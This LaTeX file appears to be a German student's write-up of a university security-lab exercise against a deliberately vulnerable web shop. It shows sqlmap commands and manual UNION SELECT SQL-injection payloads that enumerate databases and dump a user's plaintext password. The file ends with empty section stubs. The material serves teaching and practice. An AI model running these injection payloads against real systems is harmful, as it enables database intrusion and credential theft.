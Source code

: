 \documentclass[10pt,a4paper]{article}
\begin{document}
Die erste Datenbank (webshop) sah nicht wichtig für Benutzerdaten aus, da sie als Tabellen nur artikel und logs besaß. Die nächste Datenbank jedoch hieß secureuserdata und besaß eine tabelle accessdata.
Diese tabelle haben wir zunächst nach Passwörtern durchsuchen lassen (mit dem --passwords befehl):\\

sqlmap -u hackshop.seclab.uni-paderrborn.de/details\_tools.php --data=tool=1 --passwords -D secureuserdata -T accessdata\\

Es gab einige Ergebnisse, allerdings keins, mit dem namen jack (sondern nur sowas wie root, phpmyadmin usw.). Da alle diese Passwörter gehashed waren haben wir die Tabelle einfach mal so via --dump Befehl ausgeben lassen. Dabei haben wir den user jack angegeben:\\

sqlmap -u hackshop.seclab.uni-paderrborn.de/details\_tools.php --data=tool=1 --dump -D secureuserdata -T accessdata -U jack\\

Das Ergebnis war der Eintrag jack mit der id 3 und dem passwort london. Demnach wurde das Passwort wohl unverschlüsselt in der Tabelle abgelegt.


Alternative: direkt über die Internetseite Query's abschicken.
\begin{verbatim}
'UNION SELECT NULL,schema_name,NULL,NULL FROM information_schema.schemata LIMIT 2,1;#

'UNION SELECT NULL,table_name,NULL,NULL FROM information_schema.tables WHERE table_schema='secureuserdata';#

'UNION SELECT NULL,column_name,NULL,NULL FROM information_schema.columns WHERE table_name='accessdata' AND table_schema='secureuserdata' LIMIT 1,1;#
user
'UNION SELECT NULL,column_name,NULL,NULL FROM information_schema.columns WHERE table_name='accessdata' AND table_schema='secureuserdata' LIMIT 2,1;#
password

'UNION SELECT NULL,user,password,NULL FROM secureuserdata.accessdata LIMIT 1,1;#
'UNION SELECT NULL,user,password,NULL FROM secureuserdata.accessdata WHERE user='jack';#
\end{verbatim}


\subsection*{c)}

\section*{Aufgabe 2}
\end{document}
